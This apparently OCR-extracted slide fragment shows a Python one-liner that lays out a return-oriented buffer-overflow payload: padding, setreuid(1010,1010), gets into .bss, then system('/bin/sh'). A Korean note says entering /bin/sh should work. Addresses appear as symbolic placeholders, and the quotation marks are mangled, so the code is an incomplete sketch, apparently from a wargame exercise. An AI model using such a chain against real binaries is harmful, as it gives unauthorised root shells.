

Python -c ‘print “복붙\0”+”A”*17+”setreuid”+”ppr”+”1010”+”1010”+”gets”+”pr”+”bss”+”system”+”AAAA”+”bss”

/bin/sh입력 하면 될 것 같다.